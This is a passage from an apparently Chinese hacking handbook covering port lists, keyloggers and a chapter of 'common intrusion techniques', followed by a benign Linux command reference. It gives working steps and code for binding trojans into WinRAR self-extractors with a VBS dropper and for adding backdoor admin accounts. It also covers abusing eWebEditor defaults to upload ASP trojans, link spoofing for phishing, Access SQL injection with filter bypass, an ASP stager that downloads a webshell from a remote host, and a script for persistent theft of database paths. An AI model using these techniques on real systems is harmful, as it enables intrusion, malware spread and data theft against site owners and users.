- 端口：110  
  - 服务：SUN 公司的 RPC 服务所有端口  
  - 说明：常见 RPC 服务有 rpc.mountd、NFS、rpc.statd、rpc.csmd、rpc.ttybd、amd 等。  
- 端口：135  
  - 服务：Location Service  
  - 说明：Microsoft 在这个端口运行 DCE RPC end-point mapper 作为它的 DCOM 服务。远端客户端连接计算机时会通过 end-point mapper 查找服务位置，攻击者也会扫描该端口。  
- 端口：137、138、139  
  - 服务：NETBIOS Name Service  
  - 说明：137、138 是 UDP 端口；139 端口连接会尝试获取 NetBIOS/SMB 服务，用于 Windows 文件和打印机共享或 SAMBA。  
- 端口：161  
  - 服务：SNMP  
  - 说明：SNMP 允许远程管理设备，若配置不当（如默认 community 字符串 public/private）可能造成信息泄露和被攻击风险。  

## 21 键盘记录工具和盗号木马的使用与功能有何不同？

键盘记录工具和盗号木马都属于密码记录类的黑客工具，但不同之处在于：盗号木马通常只针对特定游戏进行记录；键盘记录工具更灵活，可根据窗体标题选择性记录某程序密码。

窗体标题就是每个窗口左上角的文字。例如进入搜狐网会看到“搜狐——中国最大的门户网站”等标题；若在键盘记录工具中设置截取带“搜狐”字样的标题，则只会记录该页面产生的击键信息（如图115所示）。


在通用性上，键盘记录工具更强；在专业性上，盗号木马通常更强。例如盗号木马常具备从内存截取密码的能力，而键盘记录工具多为记录敲键过程。木马记录的是直接密码；键盘记录还会包含空格、方向键、ESC 等按键，若记录 QQ 窗口，甚至聊天内容也可能被记录（如图116所示）。


## 简单描述一下键盘记录工具的工作过程：

黑客通过网络木马或邮件等方法在目标主机上执行了键盘记录工具，这个键盘工具是事先配置好的，设定了记录哪个窗体的击键信息。比如黑客想了解目标主机在搜狐邮箱的密码，就会记录窗口中关于搜邮的信息。记录之后，每隔一段时间会把击键信息以邮件的形式发往黑客的邮箱，黑客从击键信息中分析整理出相关的信息。

键盘记录工具的使用在《黑客工具实战技巧》一章中将有非常详细的介绍，这一节主要为了讲明与盗号工具间的理论差异，就不再浪费更多篇幅介绍了。

## 有没有办法快速安装 MYSQL 及 PHP、APACHE 支持程序？

在学习黑客技术、MYSQL 注入、调试 PHP 的整站时，必然会用到 MYSQL、PHP、APACHE。要在 Windows 下运行 PHP 程序及 MYSQL 数据库的整站系统是很麻烦的，要安装的东西如下：

- **Apache** 官网：http://httpd.apache.org/  
  最流行的 HTTP 服务器软件之一，快速、可靠，可通过简单的 API 扩展。而且 Perl/Python 解释器可被编译到服务器中，完全免费，完全源代码开放。  
  我下载的是 for Windows 版本，目前最新版本是：2.0.54
- **PHP** 官网：http://www.php.net/  
  PHP 是一种 HTML 内嵌式的语言，其独特的语法混合了 C、Java、Perl 以及 PHP 式的新语法，它可以比 CGI 或者 Perl 更快速地执行动态网页。  
  我下载的是 for Windows 版本，目前最新版本是：5.0.4
- **MYSQL** 官网：http://www.mysql.com/  
  MYSQL 是一个多线程的、结构化查询语言（SQL）数据库服务器。SQL 在世界上是最流行的数据库语言，MYSQL 的执行性能非常高，运行速度非常快，并且非常容易使用。  
  我下载的是 for Windows 版本，目前最新版本是：5.0.4 Beta
- **phpMyAdmin** 官网：http://www.phpmyadmin.net/  
  phpMyAdmin 用 PHP 编写，可以通过互联网控制和操作 MYSQL。通过 phpMyAdmin 可以完全对数据库进行操作，我下载的是 for Windows 版本，目前最新版本是：2.6.2-pl1

这些程序都要选择相应的版本，并且有可能产生冲突的情况，我们初学者安装起来难免会遇到。作者在平时的学习过程中发现一款能一次安装这些程序的一体化安装系统，就是博客先锋整站系统，网址为 http://www.siteengine.net，如图117所示。


选择“下载中心”->“网站引擎下载”，下载 SiteEngine Free（个人免费版含环境包）6.0。运行程序的安装文件“setup.exe”，开始按照以下步骤安装：

- 1. 阅读软件许可协议，选择“我接受所有的软件许可条款”
- 2. 阅读软件说明
- 3. 选择程序文件夹
- 4. 选择程序的安装路径（这里我们默认不改）
- 5. 程序开始安装
- 6. 安装完成，请稍等片刻即可运行了。

# 第二章 常见问题答疑解惑

这款软件是 Apache + PHP + MySQL + phpMyAdmin + Zend 环境配置的集成，在此环境下就可以运行 PHP 程序。另外注意一点，为了安全性，phpMyAdmin 管理组件没有放在 WEB 目录下，如果确定要使用，需要把该目录放入 WEB 目录，这样就能在 IE 上访问并进行管理了。如图118所示，相当直观的管理面板，一次性的整合安装，非常适合初学网络安全技术的朋友。


## 23 哪些是入侵中最常用的 CMD 命令？

在入侵中必然会用到 CMD 命令，以前的章节中也介绍过复制、建立、删除文件等基本操作。在入侵中，CMD 的相关命令还能帮我们的大忙，这一章节将最常用的几条网络 CMD 命令整理如下。

**Netstat -an** 是一个查看连接状态的命令，能看到当前正在连接、正在监听、正在等待连接的端口，如图119所示。


第一竖列 TCP 说明的是连接类型，一般分为 TCP 和 UDP 连接两种；第二排竖列是本地 IP 地址及端口，0.0.0.0 及 127.0.0.1 都表示本机；第三排竖列表示远程 IP 和端口；第四排竖列是状态，listening 表示监听，说明端口处于打开状态，但是目前还未有连接，ESTABLISHED 表明已经建立了连接，TIME_WAIT 表示连接超时，正在等待连接。

通过 netstat -an 命令能很清楚地看到本机对外的连接情况，对于观察某些服务是否启动很方便，因为很多服务都会打开相应的端口，使其处于 listening 状态。比如一台主机的 1433 一直连接不上，并不清楚是防火墙限制还是什么原因，如果拿到了 WEBSHELL 执行这个命令，一看端口是否开放即知原因，这是一条非常重要的网络命令。

**Ipconfig -all** 是一个查看网络环境的命令，能知道当前主机的网关地址（IP Address）、当前 IP 地址（IP Address）、DNS 服务器地址（DNS Servers）等信息，如图120所示。


图120

在进行嗅探、Arp 欺骗等攻击时，这些是必不可少的信息。

黑客常用的建立账号，并把这一账号添加入管理员的命令，也可以在 CMD 下进行。

建立账号的命令形式：`net user 用户名 密码 /add`，如图121所示。


图121

这样就建成一个名为 hack911、密码为 12345678 的账号。加入本地管理员组可以用 `net localgroup administrators 已经建立的用户名 /add` 的命令形式，如图122所示，这样就将刚才建立的账号 hack911 加入了管理员组。


图122

入侵个人电脑最常采用的 IPC 方法也是在 CMD 下发起的，命令形式为 `net use \\IP\ipc$ "用户名" /user:"密码"`。

关于 IPC 命令的使用有专门章节描述，这里就不再多说了。作为一个刚接触网络安全技术的初学者，最常用到的 CMD 命令就这几条，虽然并不是很难，但用得实在是太频繁了，请务必记牢！


# 第三章 黑客入侵常用技巧

- 我通过默认密码进入了一个网站后台，下面我能做什么呢？什么是抓包上传？
- 如何在 CPU 中装载嗅探器？
- 命令行下是否可以创建木马服务？
- 如何获取系统口令？
- 如何提权？

- 一个经典的 COOKIE 欺骗进入后台的例子
- 如何在 IE 中获得管理员权限？
- 命令行绕过策略限制
- 通过 COOKIE 进入站点后台

- 缓冲溢出获取远程系统权限的步骤
- 如何伪造/修改 COOKIE？
- 被保护站点的后台获取思路

- 通过网站的 BBS 数据库中转，在主站中挖到一个站点
- 如何获取 Shell 并维持权限
- 常见脚本漏洞利用

- 能否利用 Windows 相关工具帮助入侵？
- 如何设置 VPN？
- 如何利用 MDB 数据库来隐藏 ASP 木马？
- 如何配置 Serv-U 站点权限？

- 所谓的嗅探是怎么回事？如何破解邮件？
- 怎样打开 3389 远程桌面服务？
- 什么是黑白卡口？
- 什么是本地提权？
- 如何在 GOOGLE 中搜索敏感信息？

- 如何制作“万能捆绑”？
- 怎么通过常见社会工程手段获取信息？
- 如何用 Caida 入侵网站？
- 怎么架设 IRC 让“肉鸡”上线？
- 怎么利用软件搜索木马接入点？

# 第三章 黑客入侵常用技巧

- 1、如何制作“万能捆绑”？
- 2、怎么通过常见社会工程学手段猜解重要信息？
- 3、怎么用 Editor 入侵网站？
- 4、怎么进行 URL 欺骗？
- 5、怎么利用程序快捷方式插入木马？
- 6、找到了网站的 BBS 数据库地址，在主站上也得到了一个注点，怎么利用？
- 7、如果网站安装有信息检测系统该怎么突破？
- 8、怎么能时刻获得网站的数据库实际地址？
- 9、有没有办法能用 NBSI 等工具跑 COOKIE 注入的注点？
- 10、如何操作 Linux 主机？
- 11、我通过默认密码进入了一个网站的后台，下面我能做什么呢？
- 12、什么是抓包上传？
- 13、所谓的嗅探是怎么回事？
- 14、如何破解邮箱？
- 15、如何进行反向连接？
- 16、怎样打开 3389 远程终端服务？
- 17、什么是图片木马？
- 18、什么是本地提权？
- 19、如何作一名 GOOGLE 黑客？
- 20、如何进行旁注入侵？
- 21、如何后台备份数据库得到一个 WEBSHELL？
- 22、一个经典的 COOKIE 欺骗进入后台的例子
- 23、怎么使用一句话木马？
- 24、如何在 URL 中跳转目录？
- 25、命令行下如何设置计算机网络？
- 26、如何使用命令行添加服务？
- 27、如何盗取 COOKIE？
- 28、能否利用 Windows 相关工具辅助入侵？
- 29、如何设置 VPN？
- 30、怎么利用 MDB 数据库来隐藏 ASP 木马？
- 31、如何利用 Serv-U 提升权限？
- 32、如何利用 PCANYWHERE 提升权限？

## 1 如何制作“万能捆绑”？

所谓的万能捆绑，其实原理很简单，就是利用 WINRAR 的自解压功能，将两个不同后缀的文件包在一起，在解压时利用挂载的脚本将木马执行，这样就达到了欺骗性地执行两个程序的目的。

用 WINRAR 把两个文件进行捆绑，除了能捆绑不同类型的文件进行灵活搭配之外，有一个重要作用就是能防止因为捆绑机被杀所带来的被捆绑文件无用的问题。

捆绑机本身也是杀毒软件追杀的对象，好不容易辛苦得到的一个免杀木马，在用捆绑机捆绑后，又感染了捆绑机的代码，于是可怜地再次被杀。利用 WINRAR 捆绑就不会存在这种“二次感染”的问题了。

一个“万能捆绑程序”，由被捆绑文件、木马文件、脚本等几部分组成。整个运行流程是：WINRAR 将被捆绑文件和木马文件打包，在设置中设定释放文件前或文件后执行脚本，脚本的内容就是执行木马程序的命令、语句或代码。

下面来学习一下如何具体操作。

第一步：选定要创建自解压文件的文件，比如 hack.gif。单击右键，在弹出的快捷菜单上选择“添加到压缩文件”，如图1所示。


图1

打开“压缩文件名和参数”对话框，然后在“常规”选项卡上选择“创建自解压格式的压缩文件”复选框，点击“确定”，如图2所示。


图2

图3

稍等片刻，目录中一个自解压文件就建立好了，后缀是 EXE，如图3所示。

第二步：在建好的自解压文件包上点鼠标右键，选择“用 winrar 打开”，点击按钮条最右边的“自解压格式”按钮。这里注意一下：因为软件窗口大小的原因，有时候这个选项不容易看到，这时你只需要按软件窗口最右边带“右三角”(>>)的竖条按钮就能扩展菜单条了，如图4所示。


图4

在弹出的菜单中选择“自解压格式”标签项，再单击下边的“高级自解压选项”，如图5所示。

第三步：在“高级自解压选项”对话框里设置自解压文件的各种选项。在“常规”选项中设置解压路径，一般设为 `%systemroot%\system32\`，还有解压后运行 `2.vbs`，解压前运行 `hack.gif`，如图6所示。“模式”选项中设置自解压文件模式，选“全部隐藏”和“覆盖所有文件”；“文本和图标”选项里在“从文件加载自解压文件图标”中指定一个 ICO 后缀的图标文件作为生成后的自解压文件的图标，如图7所示。


这里可以选择一些有欺骗性的，比如电影文件的图标，或者一个游戏的图标。设置好后，单击“确定”关闭“高级自解压选项”对话框，再次单击“确定”关闭“压缩文件名和参数”对话框。

第四步：建立 1 个批处理文件，名为 2.vbs，内容如下：

```vb
Dim shell
set shell=CreateObject("Wscript.Shell")
shell.run "cmd /c start %SystemRoot%\system32\muma.exe" 0
```

把欲捆绑执行的木马程序命名为 muma.exe，连同 2.vbs 添加入这个自解压包文件，如图8所示。


当对方双击这个自解压文件时，首先会运行正常的程序，比如打开一个图片或运行一个小游戏，接着就会把自解压包中的 muma.exe 这个木马文件解压到系统目录下，并由 2.vbs 执行。这种方法不依赖任何捆绑机，可以达到比捆绑机更好的与任意文件捆绑的效果，可以说是木马传播必学的手段之一！

### 2 怎么通过常见社会工程学手段猜解重要信息

现在很多网站管理员为了保护网站的安全，想尽办法采取安全措施，比如数据库改名、后台改名、字段前缀修改等，这样造成的结果是我们在 access 注入时，想数据库插写却找不到数据库；通过注入入侵知道了管理员账号密码，却找不到后台登录；或者找到了管理员账号密码却猜不出表名……先来看看管理员是怎么使用常见的一些手法对入侵制造障碍的，然后提供几条突破思路。

一般来说，网站安全防护的第一步就是“隐藏后台”，也就是让更多无关的人不知道进入后台的地址。有些管理员为了方便相关用户能识别出后台目录，会采用随机字符为前缀再加下划线的命名方式建立后台目录，如 aeirjefd_admin 的形式；另一种隐藏习惯是把 admin 放到下级目录，如 w39vm0/admin 的形式，w39vm0 这个目录只有少数人知道。

另外，用前缀命名使管理员有个习惯，一般会取与自己或公司有关的名称。比如入侵某网站时，得到了账号密码，但是找不到后台。接着在网站上发现了一点信息：此网站是一家名为亿信（yshine）的网络公司制作的，那么会不会其前缀名就是类似的词呢？我们来进行猜解……直接在 IE 输入网站地址，并在后面接上 admin 目录，找不到该目录，如图9所示。我们已经知道该网站是由一家叫亿信的网络公司制作的，该网络公司主页上的商标关键词为 yshine，如图10所示。


我们试试用亿信的主页关键字来猜后台，看看后台是否为 yshine_admin。输入后提示不存在页面，再试试 yshin/admin 目录，成功进入，如图11所示。


在注入中还发现该网站的管理员表字段也作了这样的修改，如图12所示。


图12

猜解被修改的后台、表名、字段名等，需要的是灵感加经验。灵感只能靠读者自己，关于经验我总结如下：网站的名字字母缩写、管理员的名字缩写、网站邮箱的字母缩写，都有可能被作为密码，或是作为伪装的关键词，我们可以直接猜解，或是再加一些常见字用作前缀或后缀来进行猜解。比如前面那个例子中，网站后台可能进一步改为 yshine/admin/yshinelogin.asp。大家在以后的入侵中也要注意寻找和总结这些经验和规律，我认为社会工程学是一项很有用的入侵思路，而并不是入侵手段，其中带有很大的偶然性和运气成分，我们需要掌握这种思路，但也不可过分迷信。

## 3 怎么用Editor入侵网站？

所谓的Editor就是在线编辑器，很多网站的后台发布系统或者会员留言功能等都整合了这一系统，凡是出现如图13所示的编辑对话框，说明都安装有editor。


图13

本节我们利用eWebEditor为例进行说明，该系统存在一个默认账号登录漏洞，利用方法如下：访问eWebEditor的管理登录页面，其默认地址为 admin_login.asp，和 ewebeditor.asp 在同一目录下。在 IE 中输入正确的管理目录地址，如 http://www.xxx.com/webedit/admin_login.asp，看看是否出现了登录页面，登录成功后如图14所示。默认用户名：admin，密码：admin。


图14

登录成功后找到增加上传文件类型，点击“样式管理”，随便选择列表中底部的某一个样式的“设置”（不要选择上面的样式，因为那是不允许修改的），然后在上传的文件类型中增加“asa”类型，如图15所示。

接下来将 ASP 木马的扩展名修改为 asa，回到上一页点击“预览”，在弹出的工具栏中选择“上传文件”，上传刚才修改后缀的木马即可。


如果网站用默认的 admin 账号密码登录不成功，我们还有一个希望，试试直接下载 db 目录下的 ewebeditor.mdb 默认数据库文件，如图16所示。用户名和密码在 eWebEditor_System 表中，经过了 md5 加密，尝试能否破解。


如果数据库默认名改了，大家可以猜解下在线编辑器常见的目录，除了 webeditor，还包括 editor、ewbeditor、editors 等，注意灵活地检测。

## 4 怎么进行URL欺骗？

本节介绍的 URL 欺骗常用来引诱访问者进行点击，从而传播木马或截取 COOKIE，利用它与其它黑客手段组合运用会得到很好的效果。我们通过这一节要实现的目的就是，让对方在点击一个看似正常的链接时，却链接到了恶意网页。请看以下代码：

```html
<p><a id="SPOOF" href="http://www.sohu.com/"></a></p>
<div>
<a href="http://www.163.com" target="_blank">
<table>
<caption>
<label for="SPOOF">
<u style="cursor: pointer; color: blue">
www.163.com
</u>
</label>
</caption>
</table>
</a>
</div>
```

该代码运行后的结果如图17所示，注意代码中 www.163.com 的位置，是在网页上显示的网页地址。而 www.sohu.com 是点击后将会跳转的地址，并不在页面中显示出来。

在本地打开后，www.163.com 显示为超链接，按照大家一般上网的思维习惯，觉得点击这个超链接后应该会进入 www.163.com，但事实是怎样的呢？点击之后出现的结果却是到了 www.sohu.com，如图18所示。


图17


图18

这种利用方法十分简单，只需将此代码放在自己制作的 HTML 代码中，比如你可以发一封 E-MAIL 到目标的邮箱，伪装成 QQ 官网发来的某些信息，其中显示的 URL 是 QQ 的官网地址，但链接的地址却是自己指定的。这样对方在毫无戒备的情况下点击后，就达到效果了。URL 欺骗的成功不在于利用技巧，而在于利用思路。

## 5 怎么利用程序快捷方式插入木马？

本节的技巧常用来传播木马，该方法比较隐蔽、新颖，思路是借用我们常见的桌面上的 IE 快捷方式；如图19所示。对其进行修改后，使得在正常打开 IE 时偷偷链接到你的挂马网页。这样传播木马有个很大的好处，可以使自己的受嫌疑度降低。


图19

在本章前面所介绍的“万能捆绑”传播，或者 URL 欺骗传播，都遇到一个问题，那就是我们必须要将传播的文件发送给目标，如果被有经验的人发现异常状况，自己会脱不了干系。而使用快捷方式传播木马，仅仅是把木马传播的途径埋藏在电脑中，而等目标自行触发。这样即便目标发现自己中了木马，也不会怀疑到传播者。

```
\Documents and Settings\administrator\Application Data\Microsoft\Internet Explorer\
```

下的，然后点右键选择“属性”，如图20所示。


图20

将原来“快捷方式”标签目标栏中的 `"C:\Program Files\Internet Explorer\iexplore.exe"` 改为 `"C:\Program Files\Internet Explorer\iexplore.exe" http://www.sohu.com/` 即可。

如果 administrators 目录下没有 application data 目录，点击资源管理器中的“工具”——“文件夹选项”——“查看”，按照如图21所示，把“隐藏受保护的操作系统文件”前的勾去掉，将“显示所有的文件和文件夹”选中就能看到了。


图21

这里用作演示的是 www.sohu.com，实际应用中可以把这个网址替换成别的。现在我们回到桌面，双击 IE 快捷方式就会打开搜狐网。

在实际应用中，这个修改 `C:\Documents and Settings\administrator\Application Data\Microsoft\Internet Explorer\` 的过程完全不用我们手动操作，只需要把一个修改好的图标通过捆绑脚本的方式覆盖这个文件就可以了。

## 6 我得到了网站的BBS数据库地址，在它站上也得到了一个注马，怎么利用？

在入侵中我们常常会遇到这种情况：目标是一个综合类的网站，提供有电影、flash、文章、同学录等，用的是最新的动网论坛8.0。通过动网8.0 COOKIE 漏洞泄露绝对路径 `d:\www\xxx\bbs\data` 为默认数据库目录，连接 `www.xxx.com\bbs\data\dvbbs8.mdb`，下载数据库却发现作了防下载处理。管理员好像很懂安全，很有信心的样子，默认数据库名也不改，但就是让你下载不了。

试着在首页的 flash 页面找到一个注入点，是 access 数据库，但是该注入点跑不出主页后台的管理员账号和密码，继续检测后也没有发现更大的漏洞。现在的情况是，在主页和 BBS 各发现了漏洞的一半，主页发现注入点，可是猜不到数据库的情况；BBS 上发现了数据库是动网的，数据库结构是明确的，可惜无法下载得到管理员账号。

难道我们的入侵只能在这两个半吊子漏洞下放弃吗？当然不是！其实我们可以把这两个漏洞结合起来完成入侵。

我们在 access 注入中讲的都是对出现注入点的 asp 文件所调用的数据库进行注入，也就是说是注“自己的数据库”，其实 access 是可以去注入猜解其它程序的数据库的，这种技术叫做“跨站”。前提条件是得知了网站绝对路径和数据库名，这样就等于把两个半吊子漏洞结合成了一个可以完整利用的漏洞，注入语句如下：

```
http://www.xxx.com/list.asp?id=1344' and (select count(*) from admin in 'd:\www\xxx\bbs\data\dvbbs8.mdb')
```

使用的语句很简单，都是正常的 access 注入语句，只是其中加上了绝对路径的参数。普通的 access 注入语句是 and select count(*) from admin，用来猜是不是有 admin 表，注意后面加上绝对地址时要用两个引号括起来。

这样就可以查询 `d:\www\xxx\bbs\data\dvbbs8.mdb` 中的数据了。同样的，我们可以把普通的注入语句按这个模式套进去，联合查询也能进行跨库，语句如下：

```
http://www.xxx.com/list.asp?id=1344 and 1=2 union select l_content,3,4 from dv_log in 'd:\www\xxx\bbs\data\dvbbs8.mdb' where l_id=513
```

其它的注入语句就与普通的 access 注入没有两样了。经过跨库得到动网 BBS 的密码，如果破解成功即可进后台拿 WEBSHELL。以上方法为我们在入侵陷入僵局时打开了思路，大家要多多研究。

## 7 如果网站安装有信息检测系统该怎么突破？

现在的管理员为了网站安全，花的代价越来越高，各种客户端对提交信息千方百计地进行过滤，“一流信息监控检测系统”就是其中的一种。这一节以此为例讲讲怎么总结思路突破这一类检测系统。

在安装有这个系统的服务器上进行注入或是上传木马，都会出现如图22所示的提示信息，你的注入关键字和 WEB 木马中包含的关键字都会被这个系统过滤。上传不了 WEBSHELL，注入不了，如何突破？我们分两头说，一是突破上传，二是突破注入。


图22

突破上传的主要思路是，既然上传的 WEBSHELL 中有被过滤的关键字，那么我可以上传一个没有被过滤关键字，且正常的 ASP 文件。而这个文件的作用是自己从远程下载 ASP 马，这样就绕开了“一流信息监测系统”对外部 POST 数据库的检测。

我们只要把以下代码作为 ASP 马上传，然后从远程下载我们真正的 WEBSHELL 就可以了。

```asp
<%
Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET", "http://www.xxx.com/hh.txt", False
xPost.Send()

Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile Server.MapPath("nohack.asp"), 2
set sGet = nothing
set sPOST = nothing
%>
```

代码中的 `http://www.xxx.com/hh.txt` 是与网页同目录保存的 WEBSHELL 代码文件，注意不要改成 asp 后缀，因为我们要下载的是源码 asp 文件，访问后是得到执行后的结果——下载到本地保存为 nohack.asp，这样就突破了“一流信息检测系统”的上传过滤。

再来看看注入过滤，一般是拦截独立的关键词，也就是拦截字符串“and”，而不会拦截包含“and”的字符串，如“island”。用和空格一样效果的 TAB 按键代替 and 前后的两个空格，注意要把 TAB 键转换成 URL 字符的格式（TAB 键的 URL 格式是 `%09`），提交的注入语句为 **http://www.xxx.com/list.asp?id=1133%09and%091=2**，如图23所示。


接下来的注入就和普通的注入没两样了，注意把凡是有空格的地方以 `%09` 代替即可。

## 8 怎样时刻获得网站的数据库实际地址？

我们在成功入侵一个网站后，自然是想长期占领，但是现在的安全检测方式越来越强，WEBSHELL 和一句话木马都很快地被发现，从而失去作用。想记录下后台和管理员账号，从而控制上传 WEBSHELL 的根据地，这也不是长久之计，也许某天密码就可能被改成强口令，后台地址也有可能被改变。

对于网络上为数众多的 ACCESS 数据库网站而言，如果想要长期控制，只要把数据库的地址控制在手中，这个站就跑不出黑客的手掌心，这为我们长期控制网站提供了一个思路。数据库地址一般保存在 conn.asp 文件中，如果我们能随时看到 conn.asp 的内容，也就随时得知了数据库文件的地址。

实现这一点只需要把一个下载 conn.asp 文件的 asp 程序放在 WEB 目录下，从 url 里访问该文件时就会把 conn.asp 下载到本地。相关程序代码如下：

```asp
<%
Dim down_file
down_file = "D:\www\xxx\conn.asp"
Response.ContentType = "Application/octet-stream"
Response.AddHeader "Content-Disposition", "attachment; filename=" & down_file
...
%>
```

```vb
Dim stream
Set stream = Server.CreateObject("ADODB.Stream")
stream.Open
stream.Type = 1
stream.LoadFromFile down_file
stream.Position = 0
Response.BinaryWrite stream.Read(-1)
stream.Close
Set stream = Nothing
Response.End
%>
```

只需把代码中 **"D:\www\xxx\conn.asp"** 处改为你控制的网站 conn.asp 文件的绝对地址即可。如图24所示，我已经在某网站中安装了下载 conn.asp 文件的程序，命名为 const1.asp。现在我们访问这个程序就实现了 conn.asp 文件的下载。


图24

## 9 有没办法能用 NBSI 等工具跑 COOKIE 注入的盲点？

答案是可以的！普通的 COOKIE 手注是通过工具或者 NC 修改发送的数据，在其中添加注入语句，然后提交。接着还要返回一次正常页面，通过看这个页面是否正常来判断是否成功执行（非 COOKIE 注入是提交语句后马上返回正常或不正常页面），这样原本就比较复杂的猜解动作增加了一倍，对于一些复杂数据结构的网站数据库的猜解，实在是费时费力！

很多朋友遇到 COOKIE 注入就害怕，而且 COOKIE 注入用 NBSI 等工具又是不可能检测的，因为 NBSI 只能检测 POST 和 GET 的提交数据，如图25所示。


图25

直观地来说，就是只能检测那种在 url 上出现的注入漏洞。而让 NBSI 检测 COOKIE 注入的原理就是把作为 COOKIE 提交的那部分注入语句，先提交到一个起中转站作用的 asp 程序中，由这个中转站将其转换为 POST 提交的数据。理论上可行，但要现阶段的朋友们自己写程序，相信还是有难度的。好在有前辈牛人写出了现成的利用工具——“注入中转站”。打开工具后先选中“COOKIE 注入”，要填的地方有三个。首先是注入 URL 地址，比如你发现的 COOKIE 注入点是 **http://www.xxx.com/list.asp?id=1344**，这里就填 **http://www.xxx.com/list.asp**，注意去掉后面的参数。下面的来源页也把这个地址复制进去；“注入键名”处就把刚才的参数部分写进去，注意不要加值，如上面的 URL 地址只写 `id=` 就行了；最下面的“POST 提交值”不用改，这个值的意思是在中转站 ASP 程序后跟的参数，相当于一个参数的镜像，即在中转站文件提交 `jmcook.asp?jmdcw=1344`，就相当于对目标站提交了 `list.asp?id=1344`。设置后如图26所示。

# 第三章 黑客入侵常用技巧


点击“生成 ASP”后，一个注入中转站程序就生成到同目录下了，如图27所示。将这个程序放到我们的 WEB 空间里，然后通过你的空间地址 `http://www.youweb.com/jmcook.asp?jmdcw=1344` 这个链接，就等于对目标 URL 地址 `http://www.xxx.com/list.asp?id=1344` 进行了注入。

现在我们把这个链接放进 NBSI 即可以开始用工具注入，如图28所示。


最后提醒一点，即便是 COOKIE 注入，也并不是每个网站都可以成功的。

## 10 如何操作 Linux 主机？

通过其它章节学习的知识我们了解到，PHP 脚本的网站在 internet 上占有相当大的比重。PHP 往往配合 MYSQL 数据库和 APACHE，这两种程序通常是安装在 Linux 下的。作为进行网络安全测试活动的我们来说，有很大的几率需要和 Linux 主机打交道，Linux 是我们必须学会操作的系统。如果你只会操作 Windows 系统，就等于你只用一只翅膀在飞翔。

与网络安全相关进行的 Linux 操作也主要有两部分，一部分是常规操作，比如删除文件等；另一部分是网络命令，就好像是 Windows 下的 ping、netstat 等。请看表1，是 MS-DOS 和 Linux 这两种操作系统的常用命令列表。

Linux 的网络命令与 Windows 下的并没有太多区别，这里简单介绍几种。

## telnet

功能说明：远端登录。

## 表1

| 命令的目的 | MS-DOS | Linux | Linux 的简单实例 |
|---|---|---|---|
| 复制文件 | copy | cp | `cp thisfile.txt /home/thisdirectory` |
| 转移文件 | move | mv | `mv thisfile.txt /home/thisdirectory` |
| 列举文件 | dir | ls | `ls` |
| 清除屏幕 | cls | clear | `clear` |
| 关闭 shell 提示 | exit | exit | `exit` |
| 显示或设置日期 | date | date | `date` |
| 删除文件 | del | rm | `rm thisfile.txt` |
| 把输出回显到屏幕上 | echo | echo | `echo this message` |
| 用简单文本编辑器来编辑文件 | edit | gedit (a) | `gedit thisfile.txt` |
| 比较文件内容 | fc | diff | `diff file1 file2` |
| 在文件中寻找字串 | find | grep | `grep 词或词组 thisfile.txt` |
| 格式化软盘 | format a:（如果软盘是在 A: 中的话） | mke2fs 或 format (b) | `/sbin/mke2fs /dev/fd0`（`/dev/fd0` 是 Linux 中与 A: 等同的驱动器） |
| 显示命令帮助 | 命令 /? | man (c) | `man 命令` |
| 创建目录 | mkdir | mkdir | `mkdir 目录` |
| 查看文件 | more | less (d) | `less thisfile.txt` |
| 重新命名文件 | ren | mv (e) | `mv thisfile.txt thatfile.txt` |
| 显示你在文件系统中的位置 | chdir | pwd | `pwd` |
| 用指定路径名（绝对路径，absolute path）来改换目录 | cd 路径名 | cd 路径名 | `cd /directory/directory` |
| 用一个相对路径来改换目录 | cd .. | cd .. | `cd ..` |
| 显示时间 | time | date | `date` |
| 显示已被使用的内存数量 | mem | free | `free` |

注：

- a. Gedit 是图形化文本编辑器；你可以使用其它文本编辑器来代替 Gedit，包括 Emacs 和 vi。
- b. 这个命令为 DOS 文件系统格式化软盘。
- c. 某些命令你还可以使用 `info`。
- d. `more` 分页器也可以用来一个屏幕一个屏幕地在文件中逐页查看。
- e. `mv` 命令可以转移文件或重新命名在同一目录下的文件；如把 `thisfile`“转移”到同目录中的新名称（如示例）。

# 第三章 黑客入侵常用技巧

功能说明：执行 telnet 指令开启终端机阶段作业，并登录远端主机。

```
telnet [-8acdEfFKLrx] [-b<本机别名>] [-e<脱离字符>] [-k<域名>] [-l<用户名>] [-n<记录文件>] [-S<服务类型>] [-X<认证形态>] [主机名称或IP地址 [通信端口]]
```

- `-8` 允许使用 8 位字符资料（输入与输出）。
- `-a` 尝试自动登录远端系统。
- `-b <主机别名>` 使用别名指定远端主机名称。
- `-c` 不读取用户专属目录里的 `.telnetrc` 文件。
- `-d` 启动排错模式。
- `-e <脱离字符>` 设置脱离字符。
- `-E` 滤除脱离字符。
- `-f` 效果与指定 `-F` 参数相同。
- `-F` Kerberos V5 认证时上传本地主机认证数据到远端主机。
- `-k <域名>` Kerberos 认证时使用指定域名。
- `-K` 不自动登录远端主机。
- `-l <用户名称>` 指定登录远端主机的用户名。
- `-L` 允许输出 8 位字符资料。
- `-n <记录文件>` 指定文件记录相关信息。
- `-r` 使用类似 rlogin 指令的用户界面。
- `-S <服务类型>` 设置 telnet 连接所需 IP TOS 信息。
- `-x` 若主机支持数据加密功能则启用。
- `-X <认证形态>` 关闭指定认证形态。

### ifconfig

功能说明：显示或设置网络设备。

```
ifconfig [网络设备] [down up -allmulti -arp -promisc] [add<地址>] [del<地址>] [<硬件地址>] [io_addr] [irq] [media<网络媒介类型>] [mem_start<内存地址>] [metric<数目>] [mtu<字节>] [netmask<子网掩码>] [tunnel<地址>] [-broadcast<地址>] [-pointopoint<地址>] [IP地址]
```

- `add<地址>` 设置网络设备 IPv6 的 IP 地址。
- `del<地址>` 删除网络设备 IPv6 的 IP 地址。
- `down` 关闭指定网络设备。
- `<硬件地址>` 设置网络设备类型与硬件地址。
- `io_addr` 设置网络设备 I/O 地址。
- `irq` 设置网络设备 IRQ。
- `media<网络媒介类型>` 设置网络设备媒介类型。
- `mem_start<内存地址>` 设置网络设备在主内存所占用的起始地址。
- `metric<数目>` 指定计算数据包转送次数时所要加上的数目。
- `mtu<字节>` 设置网络设备 MTU。
- `netmask<子网掩码>` 设置网络设备子网掩码。
- `tunnel<地址>` 建立 IPv4 与 IPv6 间的隧道通信地址。
- `up` 启动指定网络设备。
- `-broadcast<地址>` 将送往指定地址的数据包当成广播数据包处理。
- `-pointopoint<地址>` 与指定地址网络设备建立直接连线。
- `-promisc` 关闭或启动指定网络设备的 promiscuous 模式。
